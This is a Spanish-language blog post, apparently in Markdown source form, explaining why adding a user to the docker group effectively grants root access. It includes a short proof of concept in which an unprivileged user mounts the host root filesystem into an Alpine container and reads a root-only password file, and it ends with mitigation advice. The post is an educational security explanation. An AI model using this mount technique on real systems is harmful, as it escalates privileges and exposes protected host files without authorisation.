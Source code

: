 ```yaml
---
title: 'Docker puede ser un problema de seguridad en tu sistema'
date: '2022-02-13'
tags: ["Hacking", "Docker", "Vulnerabilities", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'En este artículo, exploramos el problema de seguridad que surge al utilizar Docker. Aunque Docker ha revolucionado la forma en que creamos y compartimos imágenes de contenedores, uno de los problemas que se le atribuye es que el proceso de Docker Daemon se ejecuta como Root. Esto puede tener implicaciones indirectas y comprometer la seguridad de nuestro sistema. A través de una prueba de concepto, demostramos cómo un usuario sin privilegios puede acceder a archivos protegidos por root dentro de un contenedor Docker. Es importante tener en cuenta estas consideraciones de seguridad al utilizar Docker y tomar medidas adecuadas para proteger nuestro sistema.'
images: ["/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/docker.webp", "/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-23.webp", "/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-24.webp"]
---
```


![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/docker.webp)

Docker nació (o mejor dicho, fue presentado al público) en la PyCon de 2013 en una charla titulada *"The future of Linux Containers"*. Recomiendo ver el video que aparece a continuación (son menos de 6 minutos) y disfrutar del hecho de que en la informática, estamos viviendo lo que en un futuro será la "historia del desarrollo de software".

Y es que los *Albert Einstein* del software como *[Linus Torvalds](https://es.wikipedia.org/wiki/Linus_Torvalds), [Robert C. Martin](https://es.wikipedia.org/wiki/Robert_C._Martin), [Martin Fowler](https://martinfowler.com/), [Guido Van Rossum](https://es.wikipedia.org/wiki/Guido_van_Rossum)* o muchos de los inventores de lenguajes de programación que se encuentran en el 99% del software que utilizamos, están vivos a día de hoy.

Pero volviendo al tema de Docker. Docker no trajo consigo la tecnología de contenedores que se usa en Linux. Esto es algo que lleva existiendo desde [hace más de 20 años](https://blog.aquasec.com/a-brief-history-of-containers-from-1970s-chroot-to-docker-2016) con diferentes nombres como Chroot en 1979, Jails en el 2000 y contenedores a partir de 2004. Pero no fue hasta el 2013 cuando esta tecnología se empezó a utilizar por la mayoría de la gente.

La verdadera ventaja que trajo Docker, fue la posibilidad de intercambiar imágenes de contenedores entre sistemas de una forma sencilla con los manifiestos Dockerfile y todo el ecosistema de alrededor. Pero no está libre de ser juzgado por mucha gente.

**Uno de los problemas que se le achaca a Docker es que Docker Daemon se ejecuta como Root.** Y esto trae implicaciones indirectas como veremos a continuación.

Cuando instalamos Docker siguiendo el tutorial su [página oficial](https://docs.docker.com/engine/install/ubuntu/), nos invita a seguir un proceso post-instalación en la [siguiente página](https://docs.docker.com/engine/install/linux-postinstall/) donde nos enseñan que **podemos ejecutar Docker sin permisos de root, metiendo a un usuario normal al grupo de Docker**. Y es que aquí está la clave del problema. Podemos llegar a pensar que ejecutar Docker con un usuario normal es más seguro, cuando eso no cambia nada y de hecho, te da una sensación de seguridad que puede resultarte caro como veremos en la prueba de concepto.

Por romper una lanza a favor de ellos, en esa misma página podemos encontrar el cuadro a continuación.

![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-23.webp)

Y es que si, todos (o al menos yo alguna vez) solemos pasar por alto este tipo de mensajes si es que hemos llegado a verlos, porque en la mayoría de los blogs donde nos enseñan a instalar Docker en nuestro sistema directamente no nos previenen del riesgo de tener un usuario "sin privilegios" en el grupo de Docker. Además, "eso de Daemon Attack Surface a mi me suena a chino" 😎.

Prueba de concepto
==================

1. Contexto del problema
------------------------

Tenemos 2 usuarios en nuestro sistema, **root** y **demo**.


```
──[root@parrot]─[/root]──# id
uid=0(root) gid=0(root) grupos=0(root)
```

```
──[demo@parrot]─[/home/demo]$ id
uid=1001(demo) gid=1003(demo) grupos=1003(demo),1000(docker)
```
Como vemos, demo está en el grupo Docker para poder lanzar contenedores y realizar su gestión. Como demo es un usuario con pocos privilegios, además, es un poco con el que solemos hacer todo pensando que así estamos más seguros.

2. El archivo "protegido" de root
---------------------------------

Hay un archivo en /home que se llama password.txt. Este archivo, en principio, tiene permisos 400 para que solo el usuario root pueda leer su contenido.


```
──[root@parrot]─[/home]──# ls -l
total 4
drwxr-xr-x 1 demo demo 204 Feb 13 21:00 demo
-r-------- 1 root root  16 Feb 13 21:03 password.txt
drwxr-xr-x 1 user user 614 Feb 13 19:53 user
```
![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-24.webp)

Si no conoces como funcionan los permisos de Linux no pasa nada, simplemente créete la siguiente afirmación de lo que ocurre.

**Ningún otro usuario, ni grupo del sistema, puede acceder al contenido del archivo password.txt con los permisos actuales.**

Si aún así intentamos leer su contenido con el usuario demo, vemos el siguiente error.


```
──[demo@parrot]─[~/demo]───$ cat /home/password.txt 
cat: /home/password.txt: Permiso denegado
```
Hasta aquí todo bien, ¿correcto?

3. Docker Daemon Attack Surface
-------------------------------

A continuación, el usuario demo, el que no tenía privilegios, el que no podía leer el contenido de root, crea un contenedor del siguiente modo.


```
──[demo@parrot]─[~/demo]───$ docker run -v /:/vulnerable -it alpine /bin/sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
/ #
```
Y una vez, dentro del contenedor, empieza la magia 🧙‍♂️.


```
/ # whoami
root
/ # cat vulnerable/home/password.txt
P0wn3dP@ssw0rd!
```
Es decir, un usuario sin privilegios, fuera del contexto de los contenedores no teníamos acceso a los archivos que root controlaba. 

Dentro del contexto de los contenedores, si mapeamos en un volumen la raíz de todo el disco a una ruta del contenedor, tendremos control total de los archivos del sistema.

4. Conclusión
-------------

¿Es el título del post clickbait? En parte sí. Más que una vulnerabilidad es un problema de no tener las cosas bien configuradas. 

¿La página oficial de Docker podría explicar el problema o señalarlo de una mejor forma? Seguro que también.

La realidad es que ellos no tienen la culpa. En su misma página explican todo esto. Y la realidad también es que poca gente es conocedora de este problema de "mala configuración". Es responsabilidad de todos hacer pedagogía y explicarles a nuestros compañeros los riesgos que acarrea según que cosas y yo, con este post, dejo mi granito de arena.

¿Cómo deberías mitigar esto? Teniendo en mente que el usuario con el que gestionas Docker es como un usuario root. Protégelo con una buena contraseña y aíslalo del resto de cosas que haces en el sistema.


